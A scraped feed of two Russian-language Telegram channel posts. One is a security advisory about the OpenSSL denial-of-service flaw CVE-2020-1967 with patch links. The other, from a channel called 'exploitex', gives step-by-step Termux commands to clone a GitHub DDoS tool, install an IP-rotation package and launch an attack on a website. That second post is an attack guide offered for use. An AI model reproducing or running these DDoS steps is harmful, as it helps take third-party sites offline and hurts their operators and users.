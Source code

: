 <table><tr><td><b>→</b><a href="https://seclists.org/fulldisclosure/2020/Apr/31">
https://seclists.org/fulldisclosure/2020/Apr/31
</a>
</td></tr></table>

---

# sysadm_in_channel
`2020-04-21 17:38:12`

<blockquote>
Собственно Ахтунг. Обновление, выпущенное сегодня для OpenSSL исправляет уязвимость высокой степени серьезности, которая может использоваться для атак типа &quot;отказ в обслуживании&quot; (DoS)

Ошибка сегментации в SSL_check_chain (CVE-2020-1967)

Серверные или клиентские приложения, вызывающие функцию SSL_check_chain () могут вызать сбой из-за  неправильной обработки расширения TLS &quot;signature_algorithms_cert&quot; о время или после рукопожатия TLS 1.3

Сбой происходит, если получен недопустимый или непризнанный алгоритм подписи от пира. Это может быть использовано злонамеренным узлом для проведения атаки типа Denial of Service attack

Подвержены этой проблеме OpenSSL версии 1.1.1d, 1.1.1e, 1.1.1f

https://www.openssl.org/news/secadv/20200421.txt

Обновленная версия на офф сайте:

https://www.openssl.org/source/
</blockquote>

<table><tr><td><b>→</b><a href="https://www.openssl.org/source/">
https://www.openssl.org/source/
</a>
</td></tr></table>

---

# exploitex
`2020-04-21 17:20:00`

* https://telegra.ph/file/b891b7350e41c080288ca.jpg

<blockquote>
​​Создаем DDoS атаку на сайт через Termux

1. Запускаем Termux и прописываем команды:
apt update &amp; apt upgrade -y
pkg install python
2. Скачиваем репозиторий:
git clone https://github.com/HardyTomas/DDos-Attack-OVH-
3. Переходим в директорию:
cd DDos-Attack-OVH-
4. Устанавливаем пакеты:
pip3 install toripchanger
pip3 install -r requirements.txt
5. Запускаем программу:
python3 80port.py
